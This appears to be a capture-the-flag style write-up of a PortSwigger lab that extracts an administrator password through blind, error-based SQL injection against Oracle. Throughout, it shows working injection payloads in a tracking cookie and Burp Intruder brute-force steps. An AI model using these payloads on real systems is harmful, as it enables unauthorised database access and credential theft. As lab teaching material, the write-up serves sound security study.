 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/efc4ad9e-de11-4b84-87bd-cc445f4ef423)

## Solution :

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
#### trying to find the error messages-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''
```

Add an extra `'` symbol.it was showing error.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1d39da04-bb00-4b76-877d-805ef4d941ba)

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'''
```

Add 2 extra `'` symbol.We get a response that shows the SQL syntax is right

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/042cb032-0ea4-4984-9707-f9a6f1eb88ca)

#### Checking database with conditional errors  -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT '')||'
```
Error. This is because the database is **ORACLE**.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d0428fac-7368-49da-b2a6-2734ded02e40)
 
 for that we need to specify a table called **DUAL**
 
 ```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT ''FROM dual)||'
```
 
 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5f52a53b-46a2-4ac8-83e9-2c0989533e43)

 No error we got respones.So it is orcal database.
 
#### Check Whether the users table is present  -

 ```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9d7098fa-650d-4889-b8a0-06e9d038d7e5)

no erorr which means table exist.

*Keep in mind* > using WHERE ROWNUM = 1 is crucial. It ensures our query doesn't bring back more than one row, which could mess up our concatenation process.

#### Check Whether the username administrator is present in users table -

```Here table name is users```

We can exploit this error inducing queries to test if admin user is present or not.

>Points to rember here in qury it will always perform the `FROM` portion first if this is true then it will go to the `SELECT` portion.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8fd94e70-db25-4e08-b68c-f25af1e1139d)


We receive an error. means the condition is *TRUE* and username administrator is present in users table .

when we use `1=2`

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0829dfc4-75e2-4075-afe2-375a8c7f96b4)

We receive no error. means the condition is *False* and username administrator is present in users table .

#### Determine the length of admin's password -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>25) ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/503f1698-b7c9-417d-967c-0da900c2d30c)


```no error which which means the length of the password is less than 25```

```To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>$1$) ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/33a82c83-2746-4cc4-bc58-10f0efb7f4bf)

From line  20, we are not  getting  an error where condition is *(LENGTH > 20)*.

![Screenshot 2024-02-04 212405](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4e5bb4c7-12a9-479b-8197-71eff7277f53)

Password length  is  **20** characters long.

#### Finding the  20 characters length password by Brute force -


```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND  SUBSTR(password,1,1)='a') ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f8c9435c-4342-4f0f-b277-589f73082569)

->a is not the first character of the password.

```To find the first character of the password send qury to  Intruder then and Add the string part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as bruteforce set min and max =1  and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND  SUBSTR(password,1,1)='$a$') ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c375b8ff-289f-4be5-8881-f91e9e221ece)

Find 500 response code to find the first charactor of the password.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/67c93c82-c394-4bd1-984b-aa1c7ebb60a8)

we will able get the first character of the password that is  ```q```

Similarly we will find all the characters.So the password is ```qii57qhxt8oox3ezd9ot```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/21e2f840-dc21-4b4f-b21b-cbd49f11d676)

